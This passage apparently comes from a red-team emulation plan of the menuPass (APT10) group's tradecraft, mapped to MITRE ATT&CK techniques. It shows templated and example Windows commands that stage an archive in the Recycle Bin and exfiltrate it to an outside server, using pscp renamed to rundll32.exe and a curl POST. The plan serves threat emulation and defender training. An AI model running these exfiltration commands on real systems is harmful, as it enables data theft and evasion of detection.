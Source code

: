 ```cmd
copy #{file_name} C:\$Recycle.Bin\
```

menuPass Example:

```cmd
C:\Users\CVNX copy aa.rar C:\$Recycle.Bin
```

---

## Step 7 - menuPass Exfiltration

### Procedures

#### 7.A - Transfer Data to Cloud Account ([T1537](https://attack.mitre.org/techniques/T1537/))

menuPass is reported to have used the PSCP client, renamed to rundll32.exe to exfiltrate data.<sup>[7](https://pwc.co.uk/cyber-security/pdf/cloud-hopper-annex-b-final.pdf)</sup>

```cmd
"#{pscp_local_path}"\pscp.exe "#{pscp_exfil_files}" "#{pscp_user}"@"#{pscp_server}":/"#{pscp_drop_location}"
```

menuPass Example:

```cmd
rundll32.exe aa.rar CVNX@192.0.2.10:/temp/loot
```

#### Alternative Procedures

#### cURL

menuPass actors are reported to have used cURL to exfiltrate data to a cloud based storage provider.<sup>[10](https://recordedfuture.com/apt10-cyberespionage-campaign/)</sup>

```cmd
"#{curl_local_path}"\curl.exe -X POST -d #{file} #{exfiltration server}
```
menuPass Example:
```cmd
CU.exe -X POST -d aa.rar CVNX@192.0.2.10:/temp/loot
```
---

## Step 8 - menuPass Execution (Optional)

### Procedures

#### 8.A - Windows Management Instrumentation ([T1047](https://attack.mitre.org/techniques/T1047))

